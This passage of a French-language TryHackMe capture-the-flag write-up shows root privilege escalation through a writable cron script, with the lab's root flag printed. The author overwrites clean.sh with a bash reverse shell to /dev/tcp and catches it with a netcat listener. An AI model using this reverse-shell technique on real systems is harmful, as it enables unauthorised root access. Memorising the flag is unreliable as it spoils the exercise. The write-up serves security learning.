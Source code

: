 On télécharge pspy sur la machine cible.
On l'exécute et on remarque que \/var\/www\/html\/tmp\/clean.sh est exécute toute les minutes.   

```bash
$ cd /var/www/html/tmp
$ cat clean.sh
rm -rf downloads
$ ls -al
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Aug 29 21:03 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh
```

On voit que l'on peut modifier clean.sh.   

```bash
$ echo 'bash -i >& /dev/tcp/10.9.228.66/1337 0>&1' > clean.sh
```

On insert un reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1337
listening on [any] 1337 ...
```

On écoute pour se connecter au reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.38.181] 54470
bash: cannot set terminal process group (2105): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dmv:/var/www/html/tmp# cat /root/root.txt
cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```

On obtient un shell avec les droits root.    
On lit le fichier root.txt dans root et on a notre flag.   

La réponse est : flag{d9b368018e912b541a4eb68399c5e94a}     

